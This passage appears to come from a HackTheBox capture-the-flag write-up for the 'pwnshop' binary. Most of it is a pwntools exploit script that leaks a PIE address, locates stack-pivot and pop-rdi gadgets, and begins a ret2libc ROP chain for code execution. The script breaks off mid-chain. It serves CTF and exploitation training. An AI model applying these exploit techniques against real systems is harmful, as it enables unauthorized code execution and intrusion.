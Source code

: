 > RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/93055175-0454-4aa6-862a-257e7052e15a)


11. All good, let's send our ret2libc payload along with our stack pivot.

### GETTING RCE | ADDED A ROPSTAR SCRIPT FOR BETTER AUTOMATION

```py
from pwn import *
import os
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript="""
init-pwndbg
continue
""".format(**locals())

# exe = './pwnshop'
exe = './pwnshop_patched'
elf = context.binary = ELF(exe, checksec=True)
# context.log_level = 'DEBUG'
context.log_level = 'INFO'

library = './libc6_2.23-0ubuntu11.2_amd64.so'
libc = context.binary = ELF(library, checksec=True)

sh = start()
# pause()
sh.sendlineafter(b'>', b'2')
sh.sendlineafter(b'?', b'a')

## LEAKING PIE
sh.sendlineafter(b'?', b'A' * 7) 
sh.recvline()
get = unpack(sh.recv(6) + b'\x00' * 2)
log.success('LEAKED PIE --> %#0x', get)

elf.address = get - 0x40c0 # 16576
log.info(f'PIE BASE --> {hex(elf.address)}')

rop = ROP(elf)
# sub_rsp_gadget = rop.find_gadget(['sub rsp', '0x28', 'ret'])[0] # sub rsp, 0x28; ret;
sub_rsp_gadget = elf.address + 0x1219
log.success(f'STACK PIVOT GADGET --> {hex(sub_rsp_gadget)}')
rdi_gadget = rop.find_gadget(['pop rdi', 'ret'])[0]
log.success(f'RDI GADGET --> {hex(rdi_gadget)}')
# sh.sendlineafter(b'>', b'1')
sh.sendlineafter(b'>', b'1')

# ROP PAYLOAD
p = flat([
    rdi_gadget,
    elf.got['printf'],
    elf.plt['puts'],
```